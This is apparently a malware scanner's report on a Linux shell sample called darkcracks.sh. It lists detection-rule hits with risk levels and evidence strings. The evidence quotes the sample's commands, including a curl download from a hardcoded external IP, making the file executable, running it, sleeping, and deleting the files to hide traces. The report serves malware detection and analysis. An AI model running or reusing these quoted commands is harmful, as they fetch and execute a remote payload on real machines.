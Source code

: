 ## linux/2024.Darkcracks/darkcracks.sh [🛑 CRITICAL]

|   RISK   |                                                                                 KEY                                                                                 |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#curl_chmod_relative_run_tiny)                     | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/hidden_files/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/hidden_files/chdir-unusual.yara#cd_val_obsessive)         | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [evasion/self_deletion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_sleep_delete.yara#run_sleep_delete) | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip)                                         | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [c2/addr/http_ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/http-ip.yara#http_hardcoded_ip)                                              | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| HIGH     | [c2/addr/ip_port](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip_port.yara#hardcoded_ip_port)                                              | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#hardcoded_ip)                                                             | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell)                                                    | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell)                    | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val)                                            | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val)                                                        | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod)                                     | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| LOW      | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path)                                                               | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url)                                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                                        | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

